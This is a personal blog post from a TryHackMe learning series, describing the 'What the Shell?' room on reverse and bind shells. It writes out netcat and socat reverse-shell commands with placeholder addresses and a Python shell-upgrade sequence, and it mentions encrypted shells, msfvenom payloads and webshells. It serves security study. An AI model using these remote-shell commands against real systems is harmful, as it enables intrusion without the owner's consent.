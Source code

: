 ```yaml
---
layout: post
title: "30 Days of THM: Day 7"
date: 2024-06-18 10:00:00 +0000
categories: [post, hacking]
tags: [post, hacking, tryhackme, medium]
---
```


30 Days of TryHackMe: Day 7 — What the Shell?

Welcome to 30 Days of TryHackMe, where I try to build a cybersecurity learning streak through the online hacking platform TryHackMe. Today we are continuing where we left off on the Complete Beginner track. The next section is Shell and Privilege Escalation. Today, I am going to be doing a room at a time, instead of trying to complete an entire section, because that actually did throw me off track for this streak.


A shell is a command line environment. In Linux, it is Bash, which stands four Bourne-Again Shell. In Windows, it is cmd.exe or PowerShell. When attacking a vulnerable application, if we can force commands to be run on the target, we can gain access by getting a shell on the target. There are two types of these shells, reverse shells and bind shells. Reverse shells are when we send command line access back to us, and bind shells are when we connect to an open port on the target.

There are many ways of obtaining a shell on the target. Netcat is a network testing tool that is the traditional method, because it is installed by default on Linux. Socat is a more stable and more powerful version of netcat, but it is rarely installed by default. And as covered in the previous section, metasploit and msfvenon can also be used.

Between reverse shells and bind shells, reverse shells are easier to execute and in CTF environments, will mostly be used. The syntax for a reverse shell would be something like:
Attacking box: nc -nlvp 4444

This is the command you would run. Nc is for netcat, -n restricts to just numeric IPs, -l is so that it is listening for an incoming connection, -v is verbose, and -p is to specify the port. In the case above, 4444 would be the port number.

On the target box, the syntax would be: nc <IP Address> 4444 -e /bin/bash

This would set up a non-interactive shell. A non-interactive is pretty unstable and lacks a lot anything that requires interactivity.

The first step after getting a non-interactive shell would be to try to improve it, perhaps make it interactive. There are severals way to do this. The first way is to use Python. First thing to do is use this python command: python -c ‘import pty;pty.spawn(“/bin/bash”)’ Then you type export TERM=xterm. This gives access to commands like clear. And then you background the shell using ctrl+z, then in your own terminal you type in stty raw -echo; fg.

The second method is to use rlwrap before your nc command, which will give access to history, tab complete, and arrow keys. This is useful against windows targets.

The third method is to use the netcat to try to setup a socat.

The syntax for socat is harder than netcat. For a basic reverse shell, you would type in socat TCP-L:<port> -. The syntax on the target depends on the operating system of the target. On Windows, it would be socat TCP:<LOCAL IP>:<LOCAL PORT> EXEC:powershell.exe,pipes. On Linux, it would be socat TCP:<LOCAL IP>:<LOCAL PORT> EXEC:”bash -li”.

Socat is capable of creating an encrypted shell, which is very useful if you don’t want anyone knowing what you’re doing. If you want to do this, you first need to use opennsl to create a certificate.

Creating payloads can be done through the msfvenom command, which was covered in the previous section. There are two kinds of payloads: staged and stageless. Staged payloads are sent in two parts. Stageless is a self contained piece of code. Staged are less common, and stageless are usually easier to execute, but stageless is also easier to detect and remove.

In the metasploit framework, the typical module for catching shells is multi/handler, and this is what you would use if you want to start a meterpreter shell.

There are also webshells, which are opportunities for code to be uploaded to a web application that will start a shell.

And then this room gives an opportunity to practice with all the different techniques gone over, on both a Linux and a Windows machine.



